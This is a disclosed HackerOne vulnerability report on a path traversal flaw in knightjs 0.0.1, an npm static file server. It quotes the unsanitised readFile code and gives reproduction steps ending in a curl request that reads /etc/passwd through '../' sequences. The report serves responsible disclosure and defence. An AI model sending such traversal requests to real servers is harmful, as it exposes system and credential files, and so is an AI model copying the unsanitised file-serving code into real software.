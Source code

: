 # [knightjs] Path Traversal allows to read content of arbitrary files

## Report Details
- **Report ID**: 403707
- **URL**: https://hackerone.com/reports/403707
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-01T03:44:25.065Z
- **Disclosed**: 2018-11-02T10:20:46.006Z

## Reporter
- **Username**: abdilahrf_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path Travelsal in Knightjs
It allows attacker to read content of arbitary file on remote server.

# Module

**module name:** Knightjs
**version:** 0.0.1
**npm page:** `https://www.npmjs.com/package/knightjs`

## Module Description

knight is a simple static server without configuration on the top of Node.js.

## Module Stats

~ 10-20 / month

# Vulnerability

## Vulnerability Description

There is no sanitation to the path provided from requests

```
            fs.readFile(pathname, (err, data) => {
                if (err) {
                    res.statusCode = 500
                    res.end(`Error getting the file: ${err}.`)
                } else {
                    res.statusCode = 200
                    // based on the URL path, extract the file extention. e.g. .js, .doc, ...
                    const ext = path.parse(pathname).ext
                    // if the file is found, set Content-type and send data
                    res.setHeader('Content-type', mime[ext] || 'text/plain')
                    res.end(data)
                }
            })
```

and if the file exist they will print the data

## Steps To Reproduce:

- `npm i knightjs`
- `node node_modules/knightjs/bin/knight`
- `curl --path-as-is http://localhost:4000/../../../../../../etc/passwd -v`

F340872


# Wrap up
- I contacted the maintainer to let them know: N]
- I opened an issue in the related repository: N

## Impact

It allows attacker to read content of arbitary file on remote server.

## Attachments
- knightjs-path-traversal.PNG

